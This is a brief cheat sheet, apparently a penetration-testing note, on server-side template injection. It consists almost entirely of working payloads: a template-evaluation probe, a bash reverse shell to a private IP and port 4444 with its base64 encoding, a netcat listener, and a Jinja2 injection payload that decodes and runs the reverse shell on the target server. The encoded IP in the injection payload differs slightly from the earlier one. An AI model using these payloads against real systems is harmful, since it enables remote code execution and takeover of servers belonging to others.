 # SSTI



Payload

```bash
{{7*7}}
```



Reverse shell bash encoded

```bash
echo -ne 'bash -i >& /dev/tcp/10.10.14.25/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS80NDQ0IDA+JjE=
nc -lvvp 4444
```

Reverse shell template injection

```bash
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZG
V2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}
```

Listen

```bash
nc -lnvvp 4444
```

